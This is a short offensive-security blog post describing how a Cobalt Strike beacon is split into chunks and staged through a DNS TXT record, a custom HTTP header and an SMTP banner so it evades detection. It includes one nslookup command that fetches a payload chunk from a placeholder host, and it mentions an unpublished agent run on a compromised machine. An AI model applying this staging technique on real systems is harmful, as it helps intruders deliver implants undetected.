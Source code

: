 ```yaml
---
title: "Infiltrating CS Beacon through out different mediums"
date: 2022-01-03T16:56:40-05:00
---
```


## Introduction:
Hello Everyone, We all have heard of many infiltration techniques that were widely used making them easy to be detected. so we at Confidential took a step toward an infiltration technique that will make it a bit more complex in order not to be detected by any sense. Today's article will clarify how we have infiltrated CS beacon through out different mediums.

## Brief
We splitted the CS beacon into multiple chunks that will be later infiltrated from different mediums (DNS txt record, custome HTTP response header, and SMTP server's banner) using an executable agent that we will show a full demo about at the end of the article. 


## DNS txt record:
TXT records are a type of Domain Name System (DNS) record that contains text information. According to Google

Simply we can add our CS beacon's chunked as a txt dns record so when we perform a txt DNS query it will be resolved by the DNS Server resulting in getting the chunked part.


```
nslookup -querytype=txt confidential.example.com
```

![](../../img/infiltration/1.png)

## HTTP Response Header:
We configured our web server Response header so that we have the 2nd CS beacon's chunk in a custom response header called `Confidential`.

![](../../img/infiltration/3.png)

## SMTP Server's Banner:
We set up our SMTP Server and modified its configuration adding up the last chunck in the SMTP server's banner.

![](../../img/infiltration/2.png)

## Demo
Our team developed a tool that automates the process with more features. Here's a demo of the executable agent that we fired up inside the compromised windows machine.

![](../../img/infiltration/4.gif)


![](../../img/infiltration/5.png)


All techniques mentioned above are just limited examples of how you can infiltrate your malicious payload to the compromised machine. You still can come up with your own ideas that suits the scenario


## Refrences:

- https://support.google.com/a/answer/2716800?hl=en
- https://github.com/PaloAltoNetworks/research-notes/blob/master/notes/DNS-based%20data%20exfiltration%20and%20infiltration%20technology%20and%20detection.pdf

